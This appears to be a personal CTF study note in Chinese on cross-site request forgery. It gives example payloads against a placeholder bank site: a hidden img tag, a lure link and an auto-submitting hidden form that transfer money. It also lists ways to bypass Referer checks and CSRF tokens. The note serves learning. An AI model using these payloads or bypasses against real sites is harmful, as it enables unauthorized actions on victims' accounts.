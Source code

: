 ```yaml
---
tags:
  - CTF
  - CSRF
---
```



Cross-Site Request Forgery 跨站请求伪造
![](图片/Pasted%20image%2020241118092155.png)
- 修改账户信息 
- 利用管理员账号，上传木马文件 
- 传播蠕虫病毒（点击、扩散、点击……） 
- 和其他攻击手段配合，实现攻击，比如XSS、SQL注入
与xss（跨站脚本攻击）的区别
![](图片/Pasted%20image%2020241118092313.png)



payload （根据bank porn练习）
1. 通过图片的img src属性，自动加载，发起GET请求
```html
<img src="http://superbank.com/bank/transfer.php?nameid=20
 02&amount=1000" width="0" height="0">
```

2. 构建一个超链接，用户点击以后，发起GET请求
```html
    <a herf="http://superbank.com/transfer.php?amount=1000&
 to=jiangang" target="_bank">小姐姐在线视频聊天<a/>
```

3. 构建一个隐藏表单，用户访问，自动提交，发起POST请求

```html
<form action="http://superbank.com/withdraw" method=POST>
 <input type="hidden" name="account" value="xiaoming" />
 <input type="hidden" name="amount" value="1000" />
 <input type="hidden" name="to" value="jiangang" />
 </form>
 <script> document.forms[0].submit(); </script>
 ```

![](图片/Pasted%20image%2020241118094136.png)
csrf属于业务逻辑漏洞，攻击者没有盗用用户的信息和诱导用户进行操作，只要用户访问了攻击页面，攻击者就会伪造成用户向服务器发出请求。
特别注意<3>用户在没有登出A网站的情况下，访问攻击页面




防御
同源策略
Referer
![](图片/Pasted%20image%2020241118095920.png)
通过www.baidu.com访问
绕过方法：
- 注册该域名的子域名
- 通过burpsuite修改referer
- 可以直接删除referer（bp，`<meta name="referrer" content="never">`)请求头没有，服务器不会验证

cookie token
[使用Burp Suite 两种方式绕过 CSRF_TOKEN_bursuit +csrf token-CSDN博客](https://blog.csdn.net/slslslyxz/article/details/111302778)
部分绕过方法
（1）token没有和用户的session绑定  
如果服务器是直接弄了个token池，如果用户提交的请求中的token能和token池中的任意一个token对应上，就能认证通过的话，那么我们可以先去该网站登录，获取一个该网站的token值，然后在CSRF攻击请求上将这个token值添加上去，这样也可以绕过验证
（2）CSRF token没有绑定到指定用户的session上  
如果服务器没有将token值与用户的session绑定，并且能够让攻击者在受害者机器上设置cookie的功能，那么我们也可以通过，登录自己的账户获得cookie和对应的token值，然后将自己的cookie和token设置到受害者的电脑上，这样就可以绕过token的验证了




工具
[CSRF自动化测试-CSRFTester-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2148792)
[CSRF跨站请求伪造漏洞 && CSRFTester使用教程 - bcxc9405 - 博客园](https://www.cnblogs.com/bcxc/articles/17109586.html)



[CSRFTexter].(<file:///D:\CTF_something\CSRFTester-1.0\run.bat>)

